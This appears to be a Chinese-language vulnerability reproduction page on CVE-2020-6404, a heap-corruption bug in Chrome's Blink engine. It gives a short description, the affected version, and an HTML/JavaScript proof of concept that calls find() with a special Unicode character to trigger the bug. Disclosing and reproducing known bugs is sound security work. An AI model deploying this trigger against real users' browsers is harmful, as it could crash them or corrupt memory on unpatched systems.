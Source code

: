 ```yaml
---
title: "（CVE-2020-6404）Google Chrome Blink 缓冲区错误漏洞"
id: zhfly2960
---
```


# （CVE-2020-6404）Google Chrome Blink 缓冲区错误漏洞

## 一、漏洞简介

在80.0.3987.87之前的Google Chrome中，Blink中的不当实现使远程攻击者有可能通过精心制作的HTML页面利用堆破坏。

## 二、漏洞影响

Google Chrome 80.0.3987.87

## 三、复现过程

### poc

```
<!DOCTYPE html>
<head>
<script type="text/javascript">
document.addEventListener("DOMContentLoaded", function(){
find(decodeURIComponent('\uFFFC'));
});
</script>
</head>
<body>
<legend></legend>
</body>
</html> 
```

![image](../img/d7f0f43f5fa6e31cbdf002b00776d4a5.png)